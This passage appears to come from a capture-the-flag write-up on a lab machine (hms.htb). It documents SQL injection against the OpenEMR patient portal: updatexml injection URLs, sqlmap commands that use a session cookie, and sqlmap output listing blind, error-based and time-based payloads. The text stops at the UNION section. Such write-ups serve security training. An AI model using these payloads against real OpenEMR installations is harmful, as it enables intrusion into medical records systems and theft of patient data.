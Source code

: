 ```
interface/de_identification_forms/find_code_popup.php?search_status=1&search_term=')+or+updatexml(null,concat(0x0a,version()),null)--+-&bn_search=Search

interface/de_identification_forms/find_immunization_popup.php?search_status=1&search_term=')+or+updatexml(null,concat(0x0a,version()),null)--+-&bn_search=Search

interface/de_identification_forms/find_code_popup.php?search_status=1&search_term=')+or+updatexml(null,concat(0x0a,version()),null)--+-&bn_search=Search
```

The ones in 3.1 and 3.2 (portal) seems to give a SQL error while those from 3.3
to 3.9 seem to require authentication.

Those two request won't works because we need valid cookies even if the attack is unauthenticated.
Also we need to fill the registration form with random data even if we never receive the confirmation email, this will set a valid cookie.

```
$ sqlmap -u 'http://hms.htb/portal/add_edit_event_user.php?eid=1' -p eid --random-agent --threads 10 --batch -b
$ sqlmap -u 'http://hms.htb/portal/find_appt_popup_user.php?catid=1' -p catid --random-agent --threads 10 --batch -b
```

So we have to add the `--cookie` option:

```
$ sqlmap -u 'http://hms.htb/portal/add_edit_event_user.php?eid=1' -p eid --cookie 'OpenEMR=jcn4a7ce07kbngbo7r9rolttgu; PHPSESSID=fcfeq8h77phga1bs6b1cshh64e' --random-agent --threads 10 --batch -b
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:28:23 /2020-07-14/

[23:28:23] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows NT 5.2) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/14.0.792.0 Safari/535.1' from file '/opt/sqlmap/data/txt/user-agents.txt'
[23:28:23] [INFO] resuming back-end DBMS 'mysql'
[23:28:23] [INFO] testing connection to the target URL
[23:28:23] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (8435=8435) THEN 1 ELSE (SELECT 1164 UNION SELECT 9741) END))

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: eid=1 AND EXTRACTVALUE(4452,CONCAT(0x5c,0x71787a7a71,(SELECT (ELT(4452=4452,1))),0x717a716271))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 5294 FROM (SELECT(SLEEP(5)))KKhg)

    Type: UNION query
```